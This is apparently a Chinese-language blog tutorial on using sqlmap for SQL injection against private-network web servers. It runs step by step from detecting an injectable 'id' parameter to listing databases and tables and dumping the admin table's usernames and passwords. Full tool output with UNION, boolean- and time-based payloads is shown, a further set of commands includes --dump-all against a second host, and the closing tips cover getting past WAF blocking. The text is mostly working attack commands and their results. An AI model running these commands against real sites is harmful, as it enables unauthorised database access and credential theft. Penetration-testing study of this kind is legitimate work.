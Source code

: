 ```yaml
---
title: Net(5)——sqlmap使用实例
date: 2020-11-21
author: LM
---
```


## 1.第一步：查找注入点

```bash
sqlmap -u '192.168.3.59/article.php?id=1' #必须带上GET参数，否则sqlmap不知道如何注入
```

```bash
root@kali:~# sqlmap -u '192.168.3.59/article.php?id=1'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:30:43

[11:30:43] [INFO] resuming back-end DBMS 'mysql' 
[11:30:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1817=1817

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2184 UNION ALL SELECT NULL,CONCAT(0x716b707071,0x517964767671746351415543654b4b794171664b78754b57434b70774c6b56434b6a46786a4d5a76,0x717a706271)-- BgjA
---
[11:30:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:30:43] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.3.59'

[*] shutting down at 11:30:43
```

**结果：**出现Parameter: id (GET)等内容，存在注入点

## 2.第二步：查找数据库

```bash
sqlmap -u '192.168.3.59/article.php?id=1' --dbs    #查找数据库
```

```bash
#........#
[11:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:37:43] [INFO] fetching database names
[11:37:43] [INFO] the SQL query used returns 2 entries
[11:37:43] [INFO] retrieved: information_schema
[11:37:43] [INFO] retrieved: website
available databases [2]:                                                       
[*] information_schema
[*] website
#......#
```

**结果：**注入发现两个数据库information_schema和website。information_schema主要是mysql数据库、表、列的信息，没有什么用处，website是网站的数据，对这个数据库进行注入。

## 3.第三步：注入

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website --tables  #对website表注入
```

```bash
#。。。。。#
[11:41:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:41:14] [INFO] fetching tables for database: 'website'
[11:41:14] [INFO] the SQL query used returns 2 entries
[11:41:14] [INFO] retrieved: admin
[11:41:14] [INFO] retrieved: articles
Database: website                                                              
[2 tables]
+----------+
| admin    |
| articles |
+----------+
#..........#
```

**结果：**发现有两张表admin、articles，选择注入admin

## 4.第四步：读取数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin --columns  #读取admin表中列
```

```bash
#..............#
[11:43:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:43:46] [INFO] fetching columns for table 'admin' in database 'website'
[11:43:47] [INFO] the SQL query used returns 3 entries
[11:43:47] [INFO] retrieved: "id","int(11)"
[11:43:47] [INFO] retrieved: "user","text"
[11:43:47] [INFO] retrieved: "pass","text"
Database: website                                                              
Table: admin
[3 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| user   | text    |
| id     | int(11) |
| pass   | text    |
+--------+---------+
#............#
```

**结果：**注入得到了三列user、id、pass，只要得到user和pass，就能得到密码(一般是网站后台管理的登录密码)

## 5.第五步：查看数据

```bash
sqlmap -u '192.168.3.59/article.php?id=1' -D website -T admin -C user,pass --dump #将uesr，pass数据输出
```

```bash
#..........#
[11:47:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[11:47:33] [INFO] fetching entries of column(s) '`user`, pass' for table 'admin' in database 'website'
[11:47:33] [INFO] the SQL query used returns 3 entries
[11:47:33] [INFO] retrieved: "test1","123456"
[11:47:33] [INFO] retrieved: "test2","123456"
[11:47:33] [INFO] retrieved: "test3","123456"
Database: website                                                              
Table: admin
[3 entries]
+--------+--------+
| user   | pass   |
+--------+--------+
| test1  | 123456 |
| test2  | 123456 |
| test3  | 123456 |
+--------+--------+
#............#
```

**结果：**可以查看到用户名与密码

## 6.尝试一下

```bash
sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer --dump

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl -T adminer -columns 

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --tables

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch -D test_vprctrl --dump-all

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch --dbs

sqlmap -u "192.168.1.188/vprproject/index.php/Home/Video/index/id/189*" --batch
```

## 7.常见报错

**Q：有时发现跑出的数据都是毫无意义的字符**

**A：解决方案**

- SQLMAP会提示你加–hex或者–no-cast，有时会有帮助
- 如果你用的是time-based注射，建议增加延时–time-sec等参数，即使你的网速比较好，但是服务器可能遇见各种奇怪环境
- 增加level的数值

**Q：显示unable to connect to the target url**

**A：解决方案**

第一个可能是 time-out 设置的太小，出现问题，再有可能就是 waf 直接把请求拦截掉了，因此得不到响应。有些 waf 比较友善，过滤后会提示“参数不合法”，但是也有些waf则直接把请求拦下来无提示导致应答超时，这样在测试时会消耗大量的时间等待响应，建议减少time-out进行检测，在跑数据时改回time-out

**Q：提示possible integer casting detected**

**A：解决方案**

如果是在手工测试，建议到这里可以停止了，节省时间。如果是在扫描器扫描的盲注，那么到这里坚决无视警告继续下去。



